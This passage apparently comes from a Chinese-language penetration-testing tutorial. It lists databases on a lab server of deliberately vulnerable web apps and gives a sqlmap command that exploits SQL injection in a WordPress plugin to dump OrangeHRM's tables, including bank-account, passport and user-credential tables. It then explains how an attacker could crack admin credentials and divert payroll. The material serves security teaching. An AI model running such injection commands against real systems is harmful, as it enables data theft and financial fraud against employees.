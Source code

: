 ```
[*] orangehrm
[*] personalblog
[*] peruggia
[*] phpbb
[*] phpmyadmin
[*] proxy
[*] rentnet
[*] sqlol
[*] tikiwiki
[*] vicnum
[*] wackopicko
[*] wavsepdb
[*] webcal
[*] webgoat_coins
[*] wordpress
[*] wraithlogin
[*] yazd
```

1.  从可用数据库的列表中，我们将选择 OrangeHRM，因为它是一个人力资源管理应用。从命令行运行以下命令，以转储 OrangeHRM 数据库中存在的表：

```
root@kali:~/Chapter9# sqlmap -u "http://192.168.56.100/wordpress/wp-content/plugins/wpSS/ss_load.php?ss_id=1" --tables -D orangehrm
```

1.  这将导出 OrangeHRM 数据库中所有表格的列表，返回的数据量相当可观，共 84 个表格。输出的列表中，您将看到一些有趣的表格，如：

hs_hr_customer                 （客户）

hs_hr_emp_directdebit     （直接存款的银行账户信息）

hs_hr_emp_passport        （护照记录）

hs_hr_employee                 （详细的员工信息）

hs_hr_users                        （HR 应用用户，可以创建/修改用户）

员工等）

1.  利用数据库中的信息，攻击者将能够提取并破解管理员的用户凭证，并以超级用户权限登录。他们可以创建一个虚假的员工，生成工资记录，并通过直接存款将工资汇到外部银行账户。他们还可以利用这些信息窃取任何员工的身份，操控他们的工资等。

需要注意的是，尽管我们开始使用的应用程序与 HR 应用程序无关，但由于它们托管在同一个 MySQL 服务器上，并且使用的用户凭证必须访问所有数据库，我们能够轻松地在数据库之间跳转，即使在这种情况下，HR 应用程序仅在内部可用。
